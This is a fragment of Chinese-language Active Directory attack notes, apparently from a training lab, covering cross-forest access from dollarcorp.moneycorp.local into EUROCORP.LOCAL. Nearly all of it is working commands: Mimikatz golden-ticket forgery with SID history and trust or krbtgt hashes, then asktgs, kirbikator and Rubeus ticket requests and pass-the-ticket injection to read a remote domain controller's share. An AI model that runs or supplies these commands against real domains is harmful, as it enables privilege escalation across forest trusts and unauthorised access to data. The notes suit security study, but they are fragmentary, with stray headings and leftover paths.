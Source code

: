 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.82 seconds
```




# 跨林访问

开启一个DA的shell

伪造一条到EUROCORP.LOCAL的TGT
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:cccb3ce736c4d39039b48c79f075a430 /service:krbtgt /target:EUROCORP.LOCAL /ticket:C:\AD\kekeo_old\trust_forest_tkt.kirbi"'
```


制作一张可以访问EUROCORP.LOCAL的TGS

```
.\asktgs.exe C:\AD\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

将 TGS 呈现给目标服务
```
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
```

查看目标计算机里的SharedwithDCorp文件夹
```
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

## 方法二（rebuse.exe）


同样的，也可以使用Rubeus.exe，复用上面已经生成的TGT，生成TGS
```
.\Rubeus.exe asktgs /ticket:C:\AD\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
```

访问对方林中的计算机
```
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```




生成一个用户访问TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-1652071801-1423090587-98612180-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_forest_tkt.kirbi"'
```

 C:\AD\krbtgt_forest_tkt.kirbi


 Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\krbtgt_forest_tkt.kirbi"'



```